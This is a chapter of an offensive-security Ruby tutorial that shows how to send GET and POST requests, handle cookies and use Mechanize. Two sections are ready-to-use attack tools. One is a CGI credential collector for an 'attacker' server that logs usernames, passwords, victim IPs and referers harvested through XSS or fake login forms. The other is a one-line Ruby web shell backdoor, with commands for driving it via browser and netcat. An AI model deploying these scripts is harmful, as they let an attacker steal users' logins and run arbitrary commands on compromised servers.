

# Chapter 0x4 | Web KungFu

## Send Get request

### Using Net::HTTP
```ruby
#!/usr/bin/env ruby
# KING SABRI
# Usage | ruby send_get.rb [HOST] [SESSION_ID]
#
require "net/http"

host       = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"

def send_sqli(query)

  uri = URI.parse("https://#{host}/script/path/file.php?")
  uri.query = URI.encode_www_form({"var1"=> "val1",
                                   "var2"=> "val2",
                                   "var3"=> "val3"})

  http = Net::HTTP.new(uri.host, uri.port)
  http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS

  request = Net::HTTP::Get.new(uri.request_uri)
  request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0"
  request["Connection"] = "keep-alive"
  request["Accept-Language"] = "en-US,en;q=0.5"
  request["Accept-Encoding"] = "gzip, deflate"
  request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  request["PHPSESSID"] = session_id

  begin
    puts "Sending.. "
    response = http.request(request).body
  rescue Exception => e
    puts "[!] Failed!"
    puts e
  end

end
```

### Using Open-uri
```ruby
#!/usr/bin/env ruby
require 'open-uri'
require 'openssl'

host       = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"


def send_sqli
  uri = URI.parse("https://#{host}/script/path/file.php?var1=val1&var2=val2&var3=val3")
  headers = 
      {
        "User-Agent" => "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0",
        "Connection" => "keep-alive",
        "Accept-Language" => "en-US,en;q=0.5",
        "Accept-Encoding" => "gzip, deflate",
        "Accept" => "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Cookie" => "PHPSESSID=#{session_id}"
      }
  request = open(uri, :ssl_verify_mode => OpenSSL::SSL::VERIFY_NONE, headers)
  puts "Sending.. "
  response = request.read
  puts response
end
```

## Send HTTP Post request with custom headers
Here the post body from a file
```ruby
require 'net/http'

uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
   'Referer' => 'http://example.com/Pages/SomePage.aspx',
   'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
   'Connection' => 'keep-alive',
   'Content-Type' =>'application/x-www-form-urlencoded'
 }
post = File.read post_file   # Raw Post Body's Data
http    = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body
```

## More control on Post variables
Let's to take the following form as a simple post form to mimic in our script

|  |
|:---------------:|
| **Figure 1.** Simple Post form |

Post form code:
```html
<FORM METHOD=POST ACTION="http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi">

    <P>Name field: <INPUT TYPE="text" Name="name" SIZE=30 VALUE = "You name">
    <P>Name field: <TEXTAREA TYPE="textarea" ROWS=5 COLS=30 Name="textarea">Your comment.</TEXTAREA>

    <P>Your age: <INPUT TYPE="radio" NAME="radiobutton" VALUE="youngun"> younger than 21,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="middleun" CHECKED> 21 -59,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="oldun"> 60 or older

    <P>Things you like:
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="pizza" CHECKED>pizza,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="hamburgers" CHECKED>hamburgers,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="spinich">spinich,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="mashed potatoes" CHECKED>mashed potatoes

    <P>What you like most:
    <SELECT NAME="selectitem">
        <OPTION>pizza<OPTION>hamburgers<OPTION SELECTED>spinich<OPTION>mashed potatoes<OPTION>other
    </SELECT>

    <P>Reset: <INPUT TYPE="reset" >

    <P>Submit: <INPUT TYPE="submit" NAME="submitbutton" VALUE="Do it!" ACTION="SEND">
</FORM>

```

We need to send a Post request as the form figure 1 would do with control on each value and variable.
```ruby
require "net/http"
require "uri"

# Parsing the URL and instantiate http
uri = URI.parse("http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi")
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS

# Instantiate HTTP Post request
request = Net::HTTP::Post.new(uri.request_uri)

# Headers
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:37.0) Gecko/20100101 Firefox/37.0"
request["Referer"] = "http://www.cs.unc.edu/~jbs/resources/perl/perl-cgi/programs/form1-POST.html"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Content-Type"] = "application/x-www-form-urlencoded"

# Post body
request.set_form_data({
                          "name"         => "My title is here",
                          "textarea"     => "My grate message here.",
                          "radiobutton"  => "middleun",
                          "checkedbox"   => "pizza",
                          "checkedbox"   => "hamburgers",
                          "checkedbox"   => "mashed potatoes",
                          "selectitem"   => "hamburgers",
                          "submitbutton" => "Do it!"
                      })

# Receive the response
response = http.request(request)

puts "Status code: " + response.code
puts "Response body: " + response.body

```


## Dealing with Cookies
Some times you need to deal with some actions after authentication. Ideally, it's all about cookies.
Notes: 
- To Read cookies you need to get **set-cookie** from **response**
- To Set cookies you need to set **Cookie** to **request** 


```ruby
puts "[*] Logging-in"
uri1 = URI.parse("http://host/login.aspx")
uri2 = URI.parse("http://host/report.aspx")

Net::HTTP.start(uri1.host, uri1.port) do |http|
  http.use_ssl = true if uri1.scheme == 'https'    # Enable HTTPS support if it's HTTPS
  puts "[*] Logging in"
  p_request  = Net::HTTP::Post.new(uri1)
  p_request.set_form_data({"loginName"=>"admin", "password"=>"P@ssw0rd"})
  p_response = http.request(p_request)
  cookies    = p_response.response['set-cookie']	# Save Cookies
  
  puts "[*] Do Post-authentication actions"
  Net::HTTP::Get.new(uri2)
  g_request  = Net::HTTP::Get.new(uri2)
  g_request['Cookie'] = cookies                     # Restore Saved Cookies
  g_response = http.request(g_request)
end
```


## CGI
### Get info - from XSS/HTMLi exploitation
When you exploit XSS or HTML injection you may need to receive the grepped data from exploited user to your external server. Here a simple example of CGI script take sent get request from fake login from that asks users to enter log-in with username and password then will store the data to `hacked_login.txt` text file and fix its permissions to assure that nobody can access that file from public.

Add the following to `/etc/apache2/sites-enabled/[SITE]` then restart the service
```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory>
```
Now, put the script in /var/www/[CGI FOLDER]. You can use it now.
```ruby
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site url
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts ""
```

### Web Shell[^1] - command execution via GET

if you have a server that supports ruby CGI, you can use the following as backdoor
```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
Now you can simply use browser, netcat or WebShellConsole[^1] to execute your commands.
ex.
**Browser**
```
http://host/cgi/shell.rb?cmd=ls -la
```
**Netcat**
```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
```
**WebShellConsole**

run wsc
```
ruby wsc.rb
```
Add Shell url
```
Shell -> set http://host/cgi/shell.rb?cmd=
```
Now prompt your commands
```
Shell -> ls -la
```

## Mechanize
Since we're talking about dealing with we in ruby, we can't forget **Mechanize** gem, the most known library for dealing wit web.

**The Official description says**, the Mechanize library is used for automating interaction with websites. Mechanize automatically stores and sends cookies, follows redirects, and can follow links and submit forms. Form fields can be populated and submitted. Mechanize also keeps track of the sites that you have visited as a history.

More about Mechanize library
- [Getting Started With Mechanize][3]
- [Mechanize examples][4]
- [RailCasts | Mechanize tutorial][5]

Since you know the hard way, you'll find Mechanize as simple as mouse clicks! give it a try!

<br><br><br>
---
[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too.
- [CGI Examples](http://www.java2s.com/Code/Ruby/CGI/CatalogCGI.htm)
[3]: http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html
[4]: http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html
[5]: http://railscasts.com/episodes/191-mechanize


